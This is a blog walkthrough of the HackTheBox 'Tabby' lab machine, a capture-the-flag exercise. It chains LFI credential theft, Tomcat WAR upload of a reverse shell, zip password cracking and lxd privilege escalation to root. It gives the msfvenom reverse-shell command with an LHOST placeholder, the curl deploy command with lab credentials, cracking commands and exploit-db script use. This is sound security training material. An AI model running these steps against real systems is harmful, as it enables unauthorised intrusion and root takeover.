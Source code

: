 ```yaml
---
layout: post
title: HackTheBox Tabby walkthrough
gh-repo: c00rni/c00rni.github.io
gh-badge: [star, fork, follow]
tags: [enumeration, hackthebox, ssh, lxd, tomcat, lfi, johntheripper]
comments: true
---
```



This is a write up about Tabby box from HackThebox. The machine ip address is 10.10.10.194 and is rated as easy by the community. In short, I exploited a Local File Inclusion (LFI) vulnerability to get the admin web server credentials. I then used those credentials to upload a file on the server and get remote code execution. I brute force a protected file and found the password of an user. The user I had compromise was member of the lxd group wich allowed me to elevate my privileges to root.


![into_card.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/8ef266cc2812400c8683218347a1d3fc.png)

# Enumeration

As always I started by port enumeration.


![full_scan.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/987987c4fcf945e7aa64b25d8536798e.png)




![detail_scan.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/1f617483764c4fbba3a9f9b7a24f0afd.png)



## Port 80
I browser to the main website and found a [LFI](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion).



![suspicious_url.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/d980c4ba589345328af65147252aa056.png)



![lfi.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/27fc66fd9f9447228f593b962893566b.png)

## Port 8080
The seconde HTTP server had a basic installation of Tomcat 9. I did my homework and found Tomcat versions 7 to 9 were vulnerable to remote code execution if I could upload a malicious WAR file into the server.

Tomcat 9 allows users to upload WAR files into the server to  install web applications (see: [remote deploy documentation](http://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Deploy_A_New_Application_Archive_(WAR)_Remotely)) but users must be authenticated and have manager rights.
I used the LFI discovered previously to get access to `tomcat-users.xml` configuration file to get users credentials and rights.

![tomcat-users.xml.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/e2780244817345728fc064069c33ee3a.png)

# Foothold
Tomcat is an open-source implementation of the Java servlet technology and can run jsp files. I used `msfvenom` to create a WAR file containing a malicious jsp document and upload the war file with curl.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=YOUR-IP-ADDR -f war -o reverseshell.war
curl -v -u 'tomcat':'$3cureP4s5w0rd123!' -T reverseshell.war http://10.10.10.194:8080/manager/text/deploy?path=/reverseshell4444&update=true
```

I used netcat to listen on port 4444 and browser to my newly upload application (http://10.10.10.194:8080/reverseshell4444) to get a shell.


![tomcat_shell.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/e92487ac5644472cb38809675ee6b619.png)

# Normal user privilege escalation
I found a backup file protected by a password own by ash. 



![found_backup_file.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/c0fbaabf39734fd8aa4c5d8ae1039119.png)



Any user could read the file so I uploaded it on my machine and brute force the password with [john The Ripper](https://www.openwall.com/john/).

```bash
/usr/sbin/zip2john 16162020_backup.zip  > zip.hash
john --wordlist=/usr/share/wordlists/rockyou.txt zip.hash
```

![backup_password.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/36d527c32c9c49d1882a6f9d650e8003.png)

I used the command `su ash` and log in with the password `admin@it`.

![ash_shell.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/680afd5896ff4d52b1efe8d6e1cf2c93.png)

# Root Privilege escalation
LXD is Ubuntu’s container manager utilising linux containers. It could be considered to act in the same sphere as docker. LXD group should by no means contain normal users because there is multiple trivial ways to escalate privileges to root.

For the [lxd exploit](https://www.exploit-db.com/exploits/46978) to work properly I needed to upload a container image into the box since Tabby wasn't connected to the internet.

```bash
wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
chmod +x build-alpine
./build-alpine
searchsploit -m linux/local/46978.sh
```

I downloaded '46978.sh' script and the container image from my machine into ash root directory and got a root shell on the container.

```
chmod +x 46978.sh
./46978.sh -f CONATAINER_IMAGE
```

![root_container.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/014af8c4a7fd4c54a6b4895471d07390.png)

The file system of Tabby is accessible from `/mnt/root/` and I could make any modification on the box since were root on the container. I created a pair of SSH key with `ssh-keygen` command and copy to content of the public key into `/mnt/root/.ssh/authorized_keys` file. 

I SSH into the box as root with the priviate key and got a shell.


![root_shell.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/5015ddcdcd06472190bc2e70b88565c9.png)

I like realistic box and this box is definitely one of them. I learned a lot about tomcat and lxd privilege root escalation.

# References
- [Local File Inclusion](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)
- [lxd privilege escalation exploit](https://www.exploit-db.com/exploits/46978)
- [Automated Enumaration linux tool](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)
- [Tomcat 9 remote deploy documentation](http://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Deploy_A_New_Application_Archive_(WAR)_Remotely)
- [John the ripper](https://www.openwall.com/john/)

